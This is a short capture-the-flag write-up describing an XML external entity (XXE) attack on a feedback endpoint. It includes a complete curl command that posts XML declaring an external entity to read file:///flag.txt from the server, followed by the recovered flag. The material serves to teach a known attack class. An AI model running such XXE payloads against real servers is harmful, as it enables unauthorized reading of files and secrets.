


The first and foremost things is to check the source code.
What i found is a script tag there and now it's time to understand how it works.

Upon understanding the functioning, what i see is that frontend is manually contructing the XML payload to the server.



This is the critical as XML parser over the server might be not configure properly or while parsing it might execute some malicious payload and that's what is meant to the be send.
My primary assumption that the flag is present directly in the server root directory


Payload (Using Extern Entity)
```
curl -X POST http://15.206.47.5:5000/feedback \
-H "Content-Type: application/xml" \
-d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE feedback [
  <!ENTITY content SYSTEM "file:///flag.txt">
]>
<feedback>
    <name>&content;</name>
    <message>test</message>
</feedback>'
```

This payload spits the flag, 



Flag - ```ClOuDsEk_ReSeArCH_tEaM_CTF_2025{b3e0b6d2f1c1a2b4d5e6f71829384756}```
